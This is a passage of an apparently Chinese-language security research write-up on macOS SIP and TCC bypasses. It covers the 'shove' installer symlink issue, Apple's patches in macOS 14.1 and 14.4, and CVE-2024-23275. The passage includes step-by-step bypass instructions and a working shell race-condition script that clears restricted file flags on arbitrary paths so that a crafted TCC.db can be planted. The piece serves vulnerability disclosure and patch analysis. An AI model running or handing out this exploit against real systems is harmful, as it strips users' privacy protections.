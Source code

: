 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04HhQ8f55D6LthGk3yYpKHhJShwQyKN03pY4Nc8faPyQJpG0icJxhJkbMGg/640?wx_fmt=png&from=appmsg "")  
  
首先，我创建了一个符号链接到具有特殊文件标志SF_NOUNLINK的位置，例如目录/Library/Application Support，由于特殊文件标志而无法挂载。  
  
然后我安装了苹果签名的 PKG 文件。结果，shove进程跟踪了符号链接并清除了特殊文件标志。然后它就变得可挂载了！  
  
因此可以利用此问题完全绕过TCC保护：  
1. 滥用 SIP-bypass 原语来清除任意路径的文件标志（SF_NOUNLINK），例如“ /Library/Application Support ”。  
  
1. 创建DMG文件并挂载到路径“ /Library/Application Support ”。  
  
1. 将精心设计的TCC.db放在路径“ /Library/Application Support/com.apple.TCC ”中，即可完全绕过 TCC！  
  
演示视频：https://youtu.be/PT0iuaGJ9LY  
  
第 6 个补丁  
  
Apple 在 macOS 中再次修复了该问题14.1：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04HhBqHIzPkRW9xgBU0gMSzBlru4niaDza4CTIlw8cicTia5Klefic7nw7Zn6w/640?wx_fmt=png&from=appmsg "")  
  
现在在函数中PKSIPFullyProtected，如果文件路径具有特殊的SF_NOUNLINK标志，那么它也将被视为受到SIP 完全保护。  
  
现在看起来好多了，但这足够安全吗？  
  
CVE-2024-23275  
还没有，CVE-2024-23275再次被绕过：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04HhFhaUlaFRwSsvZuDCbmxQOUegMFrKVLTmGdDKtKnIiaTtA0IeZ2TjYCw/640?wx_fmt=png&from=appmsg "")  
  
问题  
  
因此，它会检查解析的目标路径是否受到 SIP 完全保护：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04HhWcCf00Libd0PuicwE5icwEJIdhPtTZBhfyNWSHxZg0sTicN9rLDAS8NNiaw/640?wx_fmt=png&from=appmsg "")  
  
但是解析后的目标路径是用标志“ O_NOFOLLOW ”打开的，而不是用标志“ O_NOFOLLOW_ANY ”。所以我不能直接用符号链接替换解析后的目标路径。但我可以用符号链接替换父路径组件。在调用openAPI 之前，创建一个符号链接以指向不受限制的位置。在通过第 291 行的检查后，让符号链接指向受限制的位置以清除其受限制文件标志。  
  
漏洞利用  
漏洞利用脚本如下：  
  
```
#!/bin/sh# Usage: exploit.sh /path/to/target (clear the target's file flag: "SF_RESTRICTED", "SF_SF_NOUNLINK")TARGET_DIR=`dirname "$1"`TARGET_NAME=`basename "$1"`echo'target dirname:'$TARGET_DIR', target basename:'$TARGET_NAMEmkdir "/tmp/$TARGET_NAME"ln -f -h -s /tmp /tmp/lnkln -f -h -s "/tmp/lnk/$TARGET_NAME" /Library/Application\ Support/ResearchSoftecho'waiting for the installation...'# waiting for the shove process opening the untrusted /tmp/$TARGET_NAMEwhiletrue ; doif lsof -c shove | grep "/tmp/$TARGET_NAME"then    breakfidoneecho'replacing the symlink...'ln -f -h -s "$TARGET_DIR" /tmp/lnkecho'all done.'
```  
  
  
它可用于清除任意路径的限制文件标志。  
  
第 7 个补丁  
  
Apple 在 macOS 中再次修补了此问题14.4：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04Hh4I5UpcxNs8Jo1S0zWZGDHA5lRibnaEV03OjlDepGwP0oUccCaXxrwPg/640?wx_fmt=png&from=appmsg "")  
  